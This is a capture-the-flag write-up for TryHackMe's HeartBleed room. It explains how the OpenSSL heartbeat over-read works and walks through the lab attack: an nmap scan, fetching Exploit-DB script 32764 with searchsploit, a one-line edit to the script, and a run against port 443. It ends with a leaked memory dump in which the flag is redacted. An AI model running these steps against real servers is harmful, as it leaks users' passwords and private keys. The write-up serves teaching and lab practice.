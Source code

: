 # THM: HeartBleed

| Stat       | Value                                        |
| ---------- | -------------------------------------------- |
| Image      | <img src="../../images/write_ups/try_hack_me/heartbleed/heartbleed.png" alt="HeartBleed" width="90"/> |
| Room       | HeartBleed                                   |
| URL        | https://tryhackme.com/room/heartbleed        |
| Difficulty | Easy                                         |

## Concepts/Tools Used

- Python
- SearchSploit

## Description

SSL issues are still lurking in the wild! Can you exploit this web servers OpenSSL?

## Process

This room has 2 parts. The first is information about the HeartBleed bug and what is causing it. The room provides a high level summary of how the bug can exploit memory on the server. There are a few external links that give more information and explain how this is a massive vulnerablity. The 2nd task wants you to exploit HeartBleed on a server to get the flag.

## Task 1 Background Information

I spent a lot of time reading the material and trying to understand the bug. I had to look up more information and I thought I would just provide some additional insights into what is needed to exploit this vulnerability.

It is obvious that this exploit needs SSL or TLS. Since TLS is the successor of SSL and SSLv3 is totally broken I will just talk about using TLS for an https connection in this room.

In order to perform the heartbeat request (the request that causes the HeartBleed attack), you need to have a connection with the server. Below are the minimum requests and responses for a HeartBleed attack.

| Step | Description | Who sends it |
| ---- | ----------- | ------------ |
| 1. | **ClientHello** handshake connection request | **Attacker -> Server** |
| 2. | **ServerHello** (plus cert, etc.) handshake connection response | **Server -> Attacker** |
| 3. | **(TLS Handshake completes)** - now both sides can send encrypted data |  |
| 4. | **Heartbeat** request with **fake large payload length** | **Attacker -> Server** |
| 5. | **Heartbeat** response leaking memory past intended payload | **Server -> Attacker** |

Steps 4 and 5 are at the heart (no pun intended) of this room.

### How the request and response should work

It turns out that a heartbeat request is very simple. The 2 properties that matter are the content and the length of the content. So I send a heartbeat request with these 2 properties to a server:

Content: 'Hello'
Content-Length: 5

The server is suppose to look at the Content-Length property and create a buffer of that length in memory. Then it copies the text in the Content property into that buffer that it just created. Then it copys that buffer into a response and sends the response back to me so that our TLS connection stays alive.

### How HeartBleed works

This vulnerability exists because it trusted user input. In my example above I said that my Content-Length was 5 bytes. But what if I had the same Content and I said that my Content-Length was 65,535 bytes?

This is where the vulnerability. It doesn't check the length of my Content it just blindly trusts that I am sending the correct Content-Length for my Content.

In this case, the server will allocate a 65,535 byte buffer in memory. Keep in mind that deallocated memory still has the values that were in those addresses when the memory was allocated. Then it will copy over the 5 bytes in my Content property. Then it will read all the bytes from the buffer (all 65,535 of them) and copy them to the response that goes back to me.

So now I have all kinds of things that were in memory when I made my request. It turns out that this can be usernames, passwords, sensitive chat logs and emails, environment variables, secret keys for X.509 certificates, critical business documents and more.

## Task 2 Protecting Data In Transit

I added the ip address of the machine to my host file with the alias of target.thm. So the command was:

`echo "10.10.121.123   target.thm" >> /etc/hosts`

I then ran my usual starting nmap command on this machine:

`nmap -p- -Pn -T5 -v target.thm`

Port 443 is up. I didn't bother with the other ports. I knew I needed to exploit the https connection on the box.

I used searchsploit to see if it had a script ready to go. I ran the following:

`searchsploit heartbleed`

It had a few scripts, they were a bit out of date. I expected it since HeartBleed is now a decade old at the time of this writing.

I copied over the first one that was provided by searchsploit to my current directory witht the following command:

`searchsploit 32764 -m`

The `-m` option moves the script to my current directory. 32764 is the exploit id in searchsploit.

I had to comment out 1 line to get this to work. Line 32 is the issue, I changed it from this:

`version.append(['SSL 3.0','03 00'])`

To this:

`#version.append(['SSL 3.0','03 00'])`

Again, SSLv3 is broken and so most servers do not support it. Commenting it out allows the script to try the 3 TLS methods.

I now run the script with python2 (the print calls don't have brackets and that only works with python2). Here is how I run it:

`python 32764.py target.thm -p 443 > output.txt`

Looking through the output.txt file, I see the flag on the right hand side as I scroll down. Here is the output with the key redacted:

```bash
  00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 6E 67 74 68  ....#.......ngth
  00e0: 3A 20 37 35 0D 0A 43 6F 6E 74 65 6E 74 2D 54 79  : 75..Content-Ty
  00f0: 70 65 3A 20 61 70 70 6C 69 63 61 74 69 6F 6E 2F  pe: application/
  0100: 78 2D 77 77 77 2D 66 6F 72 6D 2D 75 72 6C 65 6E  x-www-form-urlen
  0110: 63 6F 64 65 64 0D 0A 0D 0A 75 73 65 72 5F 6E 61  coded....user_na
  0120: 6D 65 3D 68 61 63 6B 65 72 31 30 31 26 75 73 65  me=hacker101&use
  0130: 72 5F 65 6D 61 69 6C 3D 68 61 78 6F 72 40 68 61  r_email=haxor@ha
  0140: 78 6F 72 2E 63 6F 6D 26 75 73 65 72 5F 6D 65 73  xor.com&user_mes
  0150: 73 61 67 65 3D 54 48 4D 7B 00 00 00 00 00 00 00  sage=THM{#######
  0160: 00 00 00 7D AF 7B 00 28 AF 84 87 27 59 A9 CF EB  ###}.{.(...'Y...
  0170: 74 86 D3 07 00 00 00 00 00 00 00 00 00 00 00 00  t...............
  0180: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
  0190: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
'''
